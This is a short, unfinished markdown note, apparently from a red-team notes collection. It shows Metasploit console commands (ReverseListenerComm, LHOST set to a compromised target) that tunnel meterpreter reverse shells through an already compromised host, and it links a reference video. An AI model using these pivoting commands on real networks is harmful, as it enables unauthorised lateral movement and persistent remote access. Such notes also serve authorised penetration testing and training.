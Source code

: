 # P2P Callback Shells

TODO: Fill this info and demonstrate how it works from the reference link below

Make the meterpreter connections act as p2p (peer-to-peer) without the need of SMB pipe meterpreter payloads even if it's not windows at all. ReverseListenerComm will tunnel our meterpreter sessions

```
msf > set ReverseListenerComm <session_id>

msf > set LHOST <compromised_target_IP>

msf > run
```

---
## References

- [Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)